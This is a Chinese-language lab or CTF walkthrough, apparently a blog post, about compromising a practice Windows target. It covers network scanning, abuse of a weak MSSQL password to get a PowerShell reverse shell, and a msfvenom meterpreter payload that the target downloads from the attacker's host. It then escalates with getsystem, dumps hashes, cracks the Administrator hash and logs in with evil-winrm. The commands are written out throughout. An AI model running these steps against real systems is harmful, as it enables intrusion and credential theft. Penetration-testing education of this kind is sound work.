



## 前言

该靶机是目标局域网内的入口机器，本文目的是拿到Web01的最高权限并且实现远程登录

## 信息收集

```
$ arp-scan -l
```


发现存在一台IP值为：`192.168.237.139`的主机

```
$ namp 192.168.237.139
```


简单扫描发现开放端口：`21`、`80`、`1433`，其中存在mssql服务

使用`Fscan`进行扫描：[Releases · shadow1ng/fscan (github.com)](https://github.com/shadow1ng/fscan/releases)

```
$ ./fscan -h 192.168.237.139
```



发现ftp服务存在匿名访问，不过没有任何泄露

mssql服务存在弱口令

## 反弹SHELL

下载mssql命令执行工具：[Release mssql-command-tools · Mayter/mssql-command-tool](https://github.com/Mayter/mssql-command-tool/releases/tag/mssql)

并且生成powershell的反弹命令：[](https://www.ddosi.org/shell/)[HYH的反弹Shell生成器](https://www.hyhforever.top/revshell/)


nc监听端口


并且执行命令



成功得到powershell的反弹


## 权限提升

当前用户权限为普通用户


生成msf反弹木马

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.237.140 LPORT=6666 -f exe -o reverse.exe
```


并且开放http服务，让目标机器下载

```
#kali
$ python -m http.server 80

#PS
PS: curl 192.168.237.140/reverse.exe -O shell.exe
```


再开一个终端，打开msfconsole

```
$ msfconsole
```


设置监听器handler，并配置

```
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.237.140
msf6 exploit(multi/handler) > set lport 6666
msf6 exploit(multi/handler) > run
```


回到powershell那里运行exe文件


可以看到成功进入meterpreter


执行getsystem进行权限提升，如下图可以看到提升到了system最高权限

```
meterpreter > getsystem
```


进入administrator的目录下，拿到flag



## 获取密码

```
$meterpreter > hashdump
```

获取到用户密码hash值，这里只要Administrator的光标部分，是由md5进行加密的


将其放入解密网站：[MD5免费在线解密破解\_MD5在线加密-SOMD5](https://www.somd5.com/)

成功得到密码


## 远程登录

由于在真实的渗透测试环境下是无法直接接触到目标机器的，所以要找到远程登录的办法

进行nmap全端口扫描

```
$ nmap 192.168.237.139 -p- 
```


发现存在5985端口，该端口用于Windows的远程管理

**evil-winrm是一个可用于黑客攻击/渗透测试的Windows远程管理(WinRM)Shell**

由于知道了管理员的密码可以直接登录

```
$ evil-winrm -i 192.168.237.139 -u Administrator -p 'xxxx'
```


登录成功
